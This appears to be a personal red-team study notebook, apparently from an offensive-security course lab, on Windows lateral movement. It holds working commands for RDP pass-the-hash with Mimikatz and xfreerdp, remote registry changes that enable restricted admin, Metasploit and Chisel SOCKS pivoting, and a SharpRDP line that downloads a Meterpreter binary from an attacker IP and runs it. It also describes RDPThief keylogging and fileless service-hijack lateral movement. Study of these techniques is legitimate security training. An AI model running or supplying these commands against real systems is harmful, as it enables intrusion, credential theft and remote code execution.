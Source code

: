 ## Windows Lateral Movement
Linking Windows post-exp:
[[Windows Post-exp]]

### RDP Lateral Movement

It start the GUI app - Remote Desktop Connetion:
#lateral-movement 
```cmd
mstsc.exe
```
We can use **/admin** flag to connect as admin (if the user is admin), to not disconnect the currently authenticated user.
Once the **RDP session** is created the **NTLM hashes stays in the lsass.exe** process until proper logout (in case of the server it is never).

One can protect from caching the credentials by setting the **restrictedadmin** by suppling the /restrictedadmin flag to mstsc.exe
#lateral-movement 
```cmd
mstsc.exe /restrictedadmin
```
The **restricted admin** is **disabled by default**, however **when the restrctedadmin is enabled we can do pass the hash**, since the credentials are not being cached. You can check if restrictedadmin is enabled by examine:
#enum #lateral-movement #pass-the-hash
```bat
HKLM:\System\CurrentControlSet\Control\Lsa
# DisableRestrictedAdmin Dword
```

If enabled and you have **NTLM hash**, you can do pass the hash with Mimikatz [[Mimikatz and Rubeus]] or Xfreerdp on Kali:
```cmd
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
```bash
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6 /cert-ignore
```

In case you have the ntlm hash, but the restricted admin is disabled, you can enable it by:
1. Starting local Powershell session in the context of the admin user, which is admin on target machine:
#mimikatz #ps1
```cmd
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
2. Enter the PSH session on remote computer:
#ps1 #lateral-movement 
```powershell
Enter-PSSession -Computer appsrv01
```
3. Create the DisableRestrictedAdmin registry entry:
#ps1 #lateral-movement 
```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```


### Reverse RDP Proxying with MSF
#lateral-movement  #socks-proxy 
Once the meterpreter is obtained you sent it to the background and do:
```shell
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j
```
Now you have the the socks proxy started on the localhost:1080, so you can use proxychains with that:
``` bash
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
proxychains rdesktop IP
```


### Reverse RDP Proxying with Chisel
#lateral-movement #socks-proxy 
Chisel URL https://github.com/jpillora/chisel
To compile:
``` bash
go build
# for Windows
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Now we need to transfer chisel.exe to the victim machine. On Kali we start the chisel server and configure socks5 proxy with ssh.
``` bash
./chisel server -p 8080 --socks5
sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config
sudo systemctl start ssh.service
ssh -N -D 0.0.0.0:1080 localhost
```

The on a window victim you run:
``` cmd
chisel.exe client 192.168.49.186:8080 socks
```

Then you could use the **proxychains**.

### RDP as console

mstsc.exe buld upon the mstscax.dll, the library exposes the interface for scripts and compiled code through the COM objects. 
With SharpRDP.exe precompilled, we can do the remote shell without the need of reverse tunnells.
This executes the notepad on the remote system:
#lateral-movement 
```cmd
SharpRDP.exe computername=appsrv01 command=notepad username=corp1\dave password=lab
```

You can execute the revese shell easly with powershell, example:
#ps1 #lateral-movement 
``` powershell
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.186/met64.exe', 'C:\Windows\Tasks\met64.exe'); C:\Windows\Tasks\met64.exe" username=corp1\dave password=lab
```

### Stealing clear text creds from RDP
#creds-leak #keylogger 
We can do API hooking to hook the mstsc.exe process to grab the creds when the user is typing (no need for global keylogger).
Previously we use frida for that, but we can do the same with custom code with WIN32 APIs.

Hooking API with win32APIs was not covered, however we are given with the unmanaged code written compilled RDPthief.dll.
**For keylogger the code refer to the code. It requires precompilled RDPthief.dll**

The results of the RDPthief can be found under the AppData dir:
```cmd
type C:\Users\<username>\AppData\Local\Temp\data.bin
```

### Fileless Lateral Movement

Similar thing that PsExec does, however the PsExec drops the binary for the service to be executed on the disk and then creates new service which is loud. Instead, we would be changing the binary for existing service with the powershell payload (AppLocker might block it, in that case we need certutil or different Applocker bypass [[applocker bypass]]). DCE-RPC to access the Service Control Manager to create new service. 

We can use unmanaged API OpenSCManagerW, the authnetication will be handled by Windows in the context of Access Token of executing thread. We would be using OpenService and ChangeServiceConfigA APIs to open the service and change the service binary. Once that is done we can call StartServiceA. 

#lateral-movement #psexec
**PsLessExec.exe code refer to the code. **

